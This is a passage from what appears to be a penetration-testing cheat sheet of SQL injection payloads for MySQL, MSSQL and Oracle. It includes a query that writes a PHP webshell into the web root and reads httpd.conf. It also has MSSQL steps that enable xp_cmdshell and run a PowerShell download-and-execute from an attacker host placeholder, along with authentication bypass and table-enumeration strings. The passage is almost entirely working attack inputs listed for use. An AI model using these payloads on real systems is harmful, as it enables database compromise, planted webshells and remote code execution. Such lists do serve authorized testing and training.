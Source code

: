 ##### Create Webshell

```console
LOAD_FILE('/etc/httpd/conf/httpd.conf')
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/<FILE>.php";
```

or

```console
LOAD_FILE('/etc/httpd/conf/httpd.conf')
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php" -- //
```

#### MSSQL

##### Authentication Bypass

```console
' or 1=1--
```

##### Get Version with Time-Based Injection

```console
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```

##### Enable xp_cmdshell

```console
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

##### Remote Code Execution (RCE)

```console
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')" ;--
```

#### Orcale SQL

##### Authentication Bypass

```console
' or 1=1--
```

##### Get Number of Columns

```console
' order by 3--
```

##### Get Table Name

```console
' union select null,table_name,null from all_tables--
```
